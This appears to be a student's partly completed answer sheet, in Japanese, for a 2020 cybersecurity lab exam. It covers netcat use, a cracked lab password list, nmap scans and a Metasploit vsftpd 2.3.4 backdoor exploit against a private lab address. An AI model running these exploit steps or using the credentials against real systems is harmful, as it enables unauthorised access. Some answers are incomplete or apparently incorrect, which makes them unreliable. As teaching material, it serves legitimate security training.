 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# ここに回答を記述
netcat -kl 5555
```
#### クライアント側コマンド

```sh
# ここに回答を記述
netcat 192.168.33.12 5555
```
### 1.
#### サーバー側コマンド

```sh
# ここに回答を記述
netcat -kl 5555 > test.txt
```
#### クライアント側コマンド

```sh
# ここに回答を記述
netcat 192.168.33.12 < test.txt
```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->
root:toor:0:0:root:/root:/bin/bash
sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash
vagrant:vagrant:1003:1003::/home/vagrant:/bin/bash

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap 192.168.30.0-127
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sP -O -p- 192.168.33.11
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST=192.168.33.11
exploit
 
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
http
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
50
```

## 問9 [講義の感想]

1.

```md
<!--  ここに回答を記述 -->

```

2.
```md
<!--  ここに回答を記述 -->
かなり分かりやすく教えてもらえてた

```
